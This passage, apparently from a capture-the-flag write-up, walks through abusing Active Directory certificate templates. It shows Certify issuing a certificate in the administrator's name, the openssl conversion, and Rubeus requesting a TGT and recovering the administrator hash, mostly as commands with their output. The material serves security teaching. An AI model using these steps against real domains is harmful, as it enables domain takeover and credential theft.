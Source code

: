 ```
[*] Subject                 : CN=ca_admin, CN=Users, DC=capt, DC=org
[*] AltName                 : administrator

[*] Certificate Authority   : dc01.capt.org\capt-ca

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 6

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAuBz<snip>Y3wiJ6DqsSI=
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIF+DCCBOCgAwIBAgI<snip>hffQWo+HLkM=
-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



Certify completed in 00:00:03.9105071
```

Convert the certificate. 
```
┌──(kali㉿kali)-[~/Captivity]
└─$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```

Let's use Rubeus to request a TGT for the administrator user. While we could pass the generated ticket to our session, we will instead utilize /getcredentials and /show options to obtain the hash of the administrator user.


```
*Evil-WinRM* PS C:\Users\ca_admin\Documents> .\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=ca_admin, CN=Users, DC=capt, DC=org
[*] Building AS-REQ (w/ PKINIT preauth) for: 'capt.org\administrator'
[*] Using domain controller: fe80::ecab:8748:e39b:fbc6%9:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGND<snip>2FwdC5vcmc=

  ServiceName              :  krbtgt/capt.org
  ServiceRealm             :  CAPT.ORG
```